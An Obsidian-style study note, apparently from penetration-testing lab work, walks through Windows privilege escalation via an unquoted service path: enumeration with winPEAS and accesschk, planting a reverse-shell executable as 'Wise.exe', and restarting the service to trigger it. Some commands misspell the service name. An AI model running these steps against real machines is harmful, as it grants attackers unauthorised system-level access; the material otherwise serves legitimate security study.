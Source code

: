 ```yaml
---
category: Uncategorized
tags: []
---
```

1. Run winPEAS to check for service misconfigurations:

```command prompt - windows
.\winPEASx64.exe quiet servicesinfo
```

2. Note that the “unquotedsvc” service has an unquoted path that also contains spaces:

![[Pasted image 20220112132841.png | 1000]]

3. Confirm this using sc:
```command prompt - windows
sc qc WiseBootAssitant
```
4. Use accesschk.exe to check for write permissions:

```command prompt - windows
.\accesschk64.exe /accepteula -uwdq C:\
```

```command prompt - windows
.\accesschk64.exe /accepteula -uwdq "C:\Program Files (x86)\"
```

```command prompt - windows
.\accesschk64.exe /accepteula -uwdq "C:\Program Files (x86)\Wise\"
```

5. Copy the reverse shell executable and rename it appropriately:

[[1._Reverse Shells (WIN)#MSFVenom]]


![[Pasted image 20220112132935.png | 1000]]


```command prompt - windows
copy C:\PrivEsc\reverse.exe "C:\Program Files (x86)\Wise\Wise.exe"
```

6. Stop the service

```command prompt - windows
sc stop WiseBootAssistant
```

```command prompt - windows
sc query WiseBootAssitant
```

![[Pasted image 20220112133219.png | 1000]]

6. Start a listener on Kali, and then start the service to trigger the exploit:

![[rlwrap]]

```command prompt - windows
net start WiseBootAssitant
```

Visual example:

```command prompt - windows
.\winPEAS.exe quiet servicesinfo
```

![[Pasted image 20211229122911.png]]

```command prompt - windows
sc qc WiseBootAssistant
```

![[Pasted image 20211229122948.png]]

```command prompt - windows
.\accesschk64.exe /accepteula -ucqv Aaron WiseBootAssistant
```

```command prompt - windows
.\accesschk.exe /accepteula -uwdq C:\
```

```command prompt - windows
.\accesschk.exe /accepteula -uwdq "C:\Program Files (x86)\"
```

```command prompt - windows
.\accesschk.exe /accepteula -uwdq "C:\Program Files (x86)\Wise\"
```